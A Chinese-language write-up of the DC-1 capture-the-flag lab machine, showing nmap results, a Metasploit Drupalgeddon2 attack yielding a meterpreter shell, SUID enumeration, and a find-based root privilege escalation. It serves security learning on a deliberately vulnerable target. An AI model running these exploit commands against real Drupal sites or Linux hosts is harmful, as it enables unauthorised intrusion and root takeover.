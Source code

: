 # DC-1 靶机解答指南

作为DC系列靶机里的第一作，DC-1的难度与知识面的广度也是相当不错的，自己也在解答的过程中学习到了许多新东西。这里就分享下自己的解答过程

## 解答

先进行一次nmap的扫描

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34122/tcp   status
|   100024  1          45463/udp6  status
|   100024  1          54991/udp   status
|_  100024  1          58173/tcp6  status
```

可以看到80端口上开有`Drupal 7`的服务，用searchsploit搜索下相关的漏洞，得到这些

![](./01.png)

结合版本号，得到这两个可以使用

```text
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)
```

第一个可以直接增加一个管理员用户，可以通过挂马来返回shell
而第二个有metasploit则可直接返回shell

这里我直接采用第二个方案

进入msfconsole，`search Druple`

![](./02.png)

使用第四个

```shell
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.88.131
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set target 7
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set payload 27
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > run
```

可以看到返回了一个meterpreter的窗口

ls后看到flag1.txt

```text
Every good CMS needs a config file - and so do you.
```

通过这一条提示可以获得管理员权限的用户名和密码，但是结合上面一个漏洞，这个也没什么必要了

同时在home找到flag4

```text
Can you use this same method to find or access the flag in root?
```

这里自己本来没什么思路了，试了试sudo，没什么用
用脏牛提权也不行，就考虑使用SUID进行提权

```text
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

先找下有suid权限的文件

```text
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

看到find文件可以用，找到对应的poc

```bash
find . -exec /bin/sh \; -quit
```

完成提权，在root目录下找到最后的flag

```text
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

---

如果在网页端以管理员的权限登入的话，会得到flag3文件

```text
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

也指向了suid提权的方向
